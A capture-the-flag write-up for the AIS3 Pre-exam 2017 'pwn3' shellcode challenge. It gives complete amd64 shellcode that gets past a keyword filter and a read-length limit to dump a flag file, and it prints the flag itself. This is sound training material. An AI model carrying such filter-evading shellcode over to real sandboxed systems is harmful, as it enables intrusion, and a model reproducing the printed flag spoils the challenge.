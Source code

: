 #AIS3 Pre-exam 2017: pwn3

![pwn3](pwn3.png)

##Solution
```
=======================================
          shellcode challenge
=======================================
Rule :
 1. Only allow open/read/write/exit
 2. Filter "flag" in your shellcode
 3. arg3 of read < 42 when running
    shellcode
=======================================
Give me your shellcode (max = 87 bytes)
```
A shellcode challenge with the above rules and in amd64.
The flag is more than 42 chars, but we can only read 42 chars at once.
We can perform read (xor rax, rax; syscall) again to read the next 42 chars, until we read the whole flag.
Also "flag" is filtered, we can send the word "Flag" and then xor the first letter "F" with 0x20 to get the letter "f", so we can bypass this.

Here is the shellcode:
```
    jmp _file

_orw:
	; xor "F" with 0x20
    pop rdi
    xor BYTE PTR [rdi + 11], 32
	
_open:
    xor rax, rax
    add al, 2
    xor rsi, rsi
    syscall

_read:
	; read the first 42 bytes
    mov rsi, rsp
    mov rdi, rax
    xor rdx, rdx
    add rdx, 42
    xor rax, rax
    syscall

	; only perform this to read the next 42 bytes
    xor rax, rax
    syscall

	; only perform this to read the last 42 bytes
    xor rax, rax
    syscall

_write:
    xor rdi, rdi
    inc rdi
    xor rax, rax
    add al, 1
    syscall

_exit:
    xor rax, rax
    add al, 60
    syscall


_file:
    call _orw
    .ascii "/home/pwn3/Flag"
    .byte 0
```

Flag:
>ais3{r34d_0p3n_r34d_Writ3_c4ptur3_th3_fl4g_sh3llc0ding_1s_s0_fUn_y0ur_4r3_4_g0od_h4ck3r_h4h4}
